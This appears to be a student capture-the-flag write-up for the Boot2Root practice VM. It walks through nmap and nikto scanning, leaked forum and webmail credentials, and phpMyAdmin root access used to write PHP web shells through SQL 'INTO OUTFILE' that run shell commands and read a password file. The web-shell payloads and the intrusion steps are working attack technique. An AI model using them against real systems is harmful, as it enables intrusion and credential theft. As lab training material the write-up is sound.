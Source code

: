 # Boot2Root 42 Project - Write Up 1

## Step 1: find the VM's IP

BEFORE ANYTHING : when setting up your vm in network, set it to bridged adapter, select the wifi card in the section name and then, make sure you're also connected to a wifi

First, find your local ip so you scan it

```
on Windows :
>ipconfig
    Wireless LAN adapter Wi-Fi 2
        IPv4 Address. . . . . . . . . . . : 192.168.1.45
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.1.255

on Macs :
    Maxime je te laisse remplir ca
```

Now we know our local ip, so we'll scan it using nmap ans after a few minutes we end up with :

```
>nmap 192.168.1.0/24
...
    Nmap scan report for BornToSecHackMe-001.lan (192.168.1.74)
    Host is up (0.0031s latency).
    Not shown: 994 closed tcp ports (reset)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    22/tcp  open  ssh
    80/tcp  open  http
    143/tcp open  imap
    443/tcp open  https
    993/tcp open  imaps
    MAC Address: DC:1B:A1:92:89:AC (Intel Corporate)
...
```

## Step 2: Use the port 443

Now that we know the ip of the vm all we need to do is to put it our browser to discover a simple web page asking to be hacked (cheeky page)

To do so, we'll use nikto by using
```
>perl nikto.pl -h 192.168.1.74 -p 443
...
    + OSVDB-3092: /forum/: This might be interesting.
    + OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
    + /phpmyadmin/: phpMyAdmin directory found
...
```
And now we can verify directly on our browser that yes, we have access to

    192.168.1.74/forum
    192.168.1.74/webmail
    192.168.1.74/phpmyadmin

## Step 3: Abuse the forum

first thing, we can see in the head that this forum is made using my little forum 2.3.4 an information usefull later.

But for now we'll go ont the forum and search for anything fishy, and something fishy we found on the topic "Problem login ?" where the user lmezard posted a log from a ssh connection.

And when you read the log you can find this line:

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

which is lmezard's password on the forum

After loging in as them, the only new thing we get is a list of all the user registered on the forum and the User Area where we found their mail :

    laurie@borntosec.net

## Step 4: Webmail

Since we have laurie's mail we can login with the same password

And the first mail called "DB Access" contain with no surprise     

    Hey Laurie,

    You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

    Best regards.

## Step 5: PhpMyAdmin

As promised, the version of MLF is important now since we can see in the table  mlf2_userdata the hashed password of all the users.

But im too busy to care. Since we are root we can inject anything with SQL
and we have this https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

deux choses importantes:
1. https://192.168.1.74/forum/templates_c/.dummy doesn't cause any errors (/templates_c/.dummy is a file accessible in the git)
2. the principe of the sql request is to write in the templates_c directory in a new php file a php element executing a bash command

### Exploit 1:

    select "<?php $out = shell_exec('ls -laR /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/ls.php";

Now https://192.168.1.74/forum/templates_c/ls.php display the result
and no surprise an easy to see LOOKATME folder is here so we just need to read what's inside the password file

### Exploit 2:

    select "<?php $out = shell_exec('cat /home/LOOKATME/password /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/pogger.php";

and now https://192.168.1.74/forum/templates_c/pogger.php gives us

    lmezard:G!@M6f4Eatau{sF"

## Step 6: The ftp server

Since we can't login via ssh with those id, we will connect to the ftp server

to do so:
```
    pwd>ftp 192.168.1.74

    Connected to 192.168.1.74.
    220 Welcome on this server
    200 Always in UTF8 mode.
    User (192.168.1.74:(none)): lmezard
    331 Please specify the password.
    Password: G!@M6f4Eatau{sF"
    230 Login successful.
```

We'll use "dir" to list the file we have access to et get to retrieve them on our host.

The README file say that we'll get the ssh password of the user laurie using the "fun" file

So we have to tar -xf the file and get a bunch of .pcap files

## Fun's  solution

So since we're on our host, we have the wonderfull tool VSC, and we dont have to work on vim. so when you open anyway using vsc's built-in decoder, we'll get a lot of thing

and while scrolling you'll spot some getmeX() functions that you will find in random .pcap files and using the comment's number + 1 you'll find the letter corresponding

now that you have your 12 letters password hash it in sha-256 and you have your password for laurie
after retrieving  all the letter we end up with :
```
Iheartpwnage

in SHA-256:
    330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
